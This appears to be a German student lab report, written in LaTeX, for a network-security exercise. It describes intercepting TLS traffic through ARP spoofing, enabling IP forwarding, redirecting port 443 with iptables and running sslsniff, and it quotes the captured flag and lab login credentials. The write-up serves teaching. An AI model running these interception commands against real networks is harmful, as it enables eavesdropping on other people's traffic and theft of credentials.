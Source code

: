 \documentclass[10pt,a4paper]{article}
\author{Christoph Robbert 6577945, Peter Stilow 6500440}
\title{Protokoll 6}
\begin{document}
\maketitle
 
\section*{Aufgabe 1}

\subsection*{a)}
Ein Mitschnitt mittels Wireshark auf den Workstations zeigte, dass sich auf den Workstations mit den IPs \texttt{192.26.175.11} und \texttt{192.26.175.13} ein Prozess mittels TLSv1.1 mit der IP \texttt{192.26.175.15} verbindet. Um diese Verbindung mitzuschneiden änderten wir auf der Workstation mittels 
\begin{verbatim}
arp -s 192.26.175.15 52:54:00:2c:4f:ec
\end{verbatim}
den ARP Eintrag für die IP \texttt{192.26.175.15} auf die MAC Adresse der Kali VM auf derselben Workstation.
In der Kali VM starten wir das Tool sslsniff.
Um dieses Tool verwenden zu können, mussten wir in der Kali VM mittels
\begin{verbatim}
echo 1 > /proc/sys/net/ipv4/ip_forward
\end{verbatim} 
Das IP forwarding einschalten. Außerdem haben wir wie in der \texttt{man-page} von \texttt{sslsniff} beschrieben die Regel für IP Tables umgeschrieben, sodass alle Zugriffe auf den Port 443 auf den Port 4433 umgeleitet werden.
\begin{verbatim}
iptables -t nat -A PREROUTING -p tcp --destination-port 443  -j REDIRECT --to-ports 4433
\end{verbatim}
Danach starteten wir sslsniff mit den folgenden Parametern:
\begin{verbatim}
sslsniff  -a  -c  /usr/share/sslsniff/certs/wildcard  -s 4433 -w /tmp/sslsniff.log
\end{verbatim}
Nach kurzer Zeit fanden wir die folgenden Zeilen in der Logdatei \texttt{sslsniff.log}:
\begin{verbatim}
Hallo bernd!
Hier ist deine Flagge: 1107174691af9ff3681d2b5bdb5740b1589bae53

Neue Zugangsdaten
Benutzer: bernd
Passwort: SicheresPasswort
\end{verbatim}
Die Flagge lautet also \texttt{1107174691af9ff3681d2b5bdb5740b1589bae53}
\end{document}
